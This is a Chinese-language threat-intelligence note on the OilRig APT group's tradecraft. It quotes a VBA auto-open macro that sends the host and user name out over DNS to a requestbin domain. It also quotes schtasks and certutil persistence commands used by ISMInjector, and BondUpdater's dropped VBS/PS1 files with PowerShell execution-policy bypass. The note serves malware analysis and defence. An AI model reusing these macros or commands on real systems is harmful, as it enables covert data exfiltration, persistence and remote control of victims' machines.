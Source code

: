# OilRig

## 特征

1. 使用带有DNS隧道的恶意宏来确认当前执行阶段和识别受害者信息.

```C
Sub Document_open()
       Randomize
       hostname = LCase(Environ("computername"))
       hostname = Mid(hostname, Len(hostname) - 3, 4)
       username = Mid(LCase(Environ("username")), 1, 3)
       domain = "子域名.requestbin.net"
       Call DnsQuery(myDomain(1)，DNS_TYPE_A, 0, 0, 0, 0)
```

2. 投递的后门文件会先收集受害者电脑的基础信息，然后根据系统环境的用户名、计算机名、域来计算一个4字节的受害者标识符，以用来后续的C2通信.

3. ISMinjector木马文件在做持久化时会创建两个计划任务.

```bash
SchTasks /Create /SC MINUTE /MO 4 /TN \"ReportHealth\" /TR \"%localappdata%\\srvHealth.exe\" /f
//每4分钟运行srvHealth.exe
SchTasks /Create /SC MINUTE /MO 2 /TN \"LocalReportHealth\" /TR \"cmd.exe /c certutil -decode %localappdata%\\srvBS.txt %localappdata%\\srvHealth.exe && schtasks /DELETE /tn LocalReportHealth /f && del %localappdata%\\srvBS.txt\""
//每2分钟运行一次，使用Certutil将srvBS.txt中的payload复制到srvHealth.exe并删除源文件
```

4. BondUpdater木马文件会在受害者启用钓鱼文档的宏时下载两个文件:

>	C:\ProgramData\WindowsAppPool\AppPool.vbs

>	C:\ProgramData\WindowsAppPool\AppPool.ps1

宏通过执行:wscript C:\ProgramData\WindowsAppPool\AppPool.vbs命令创建计划任务为cmd.exe /C schtasks /create /F /sc minute /mo 1 /tn "\WindowsAppPool\AppPool" /tr "wscript /b "C:\ProgramData\WindowsAppPool\AppPool.vbs""，使其BondUpdater含有持久性.
创建完计划任务后，将会通过PowerShell.exe -exec bypass -file C:\ProgramData\WindowsAppPool\AppPool.ps1，使用带有DNS隧道的C2通信.
